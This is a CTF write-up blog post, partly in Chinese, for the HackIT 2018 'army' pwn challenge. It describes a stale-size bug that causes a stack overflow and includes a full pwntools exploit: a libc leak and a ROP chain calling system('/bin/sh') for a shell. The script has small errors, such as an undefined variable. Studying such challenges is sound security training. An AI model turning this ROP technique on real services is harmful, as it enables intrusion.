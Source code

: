```yaml
---
title: HackIT_Army.md
date: 2018-09-11 17:46:39
tags: pwn
layout: post
---
```

An easy challenge
but it is difficult if u dont know alloca
<!--more-->

## 0x01 Analysis
一个简单的菜单程序
直接泄露了libc 只开了nx保护和partial relro
## 0x02漏洞分析
主要漏洞在于没有将创建一个soldier作为一个事件(都成功或者都不成功)
导致在bss上的size未被更改
导致了栈溢出
## 0x03漏洞利用
* 创建一个soldier将其的answer长度设得较长
* 删除这个soldier
* 新建一个soldier但是将其answer设置为-1
* 在删除时的anser长度还是原来的较长值 所以可以构造rop
## 0x04 EXP
```
from pwn import *
def cmd(c):
	p.readuntil("tion\n")
	p.sendline(str(c))
def add(name,h,w,size,des):
	cmd(1)
	p.readuntil("name: ")
	p.sendline(name)
	p.readuntil("height: ")
	p.sendline(str(h))
	p.readuntil("weight: ")
	p.sendline(str(w))
	p.readuntil("answer: ")	
	p.send(str(size).ljust(4))	
	p.readuntil("tion: ")
	p.send(des.ljust(size))
def leave(mes,size):
	cmd(3)
	p.readuntil("answer : ")
	p.send(mes.ljust(size))
context.log_level="debug"
pop_rdi_ret=0x400d03
p=process("./army")
p.readuntil("Luck : ")
data=p.readline()
puts=u64(data[:-1].ljust(8,"\0"))
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc.address=puts-libc.symbols['puts']
off=0x138
size=0x58
add("jack",1,1,size,"")
leave("",size)
cmd(1)
p.readuntil("name: ")
p.sendline(name)
p.readuntil("height: ")
p.sendline(str(1))
p.readuntil("weight: ")
p.sendline(str(1))
p.readuntil("answer: ")	
p.send(str(-1).ljust(4))
gdb.attach(p,'''
''')
payload=p64(0xf1147+libc.address)
leave("A"*0x38+p64(pop_rdi_ret)+p64(libc.search("/bin/sh").next())+p64(libc.symbols["system"]),size)
p.interactive()
```

## 0x05Review
A easy problem about alloca
and rop